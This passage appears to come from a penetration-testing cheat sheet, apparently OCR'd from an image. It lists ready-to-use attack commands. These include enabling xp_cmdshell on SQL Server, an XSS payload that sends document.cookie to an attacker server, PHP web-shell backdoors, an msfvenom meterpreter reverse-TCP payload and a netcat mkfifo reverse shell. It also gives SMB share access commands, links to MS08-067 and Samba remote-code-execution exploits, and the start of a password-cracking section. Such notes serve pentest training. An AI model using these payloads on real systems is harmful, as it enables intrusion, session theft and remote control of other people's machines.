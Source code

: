 -- To allow advanced options to be changed.
EXEC sp_configure 'show advanced options', 1
GO
-- To update the currently configured value for advanced options.
RECONFIGURE
GO
-- To enable the feature.
EXEC sp_configure 'xp_cmdshell', 1
GO
-- To update the currently configured value for this feature.
RECONFIGURE
GO
```

cookie stealer script
```
<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>
```

shells
php backdoor
```
echo '<?php system(“rshell.exe”); ?>' > backdoor.php
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.11.0.95 lport=9000 -f exe -o rshell.exe
```
even tinier backdoor (backticks work the same as `shell_exec`)
```
<?=`$_GET[1]`?>
```

[Dictionary Attacks on login forms](https://blog.techorganic.com/2014/07/15/hell-hacking-challenge/)

nc "invalid option -e"
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.171 9000 >/tmp/f
```


### SMB

connect to share
```
smbclient \\\\10.11.1.31\\<share name>
```

mount smb share in kali
```
mount -t cifs //10.11.1.31/<share name> /path/to/local/folder -o username=guest,password=,vers=1.0
```

[Windows server Remote Code Execution (MS08-067)](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py)

[Microsoft Windows - 'srv2.sys' SMB Code Execution (Python) (MS09-050)](https://www.exploit-db.com/exploits/40280)

[Samba < 2.2.8 (Linux/BSD) - Remote Code Execution](https://www.exploit-db.com/exploits/10)


### Weak Passwords

SSH, RDP, FTP, Telnet, HTTP(S), POP3(S), IMAP, SMB, VNC, SIP, Redis, PostgreSQL, MySQL, MSSQL, MongoDB, Cassandra, WinRM, OWA
```
ncrack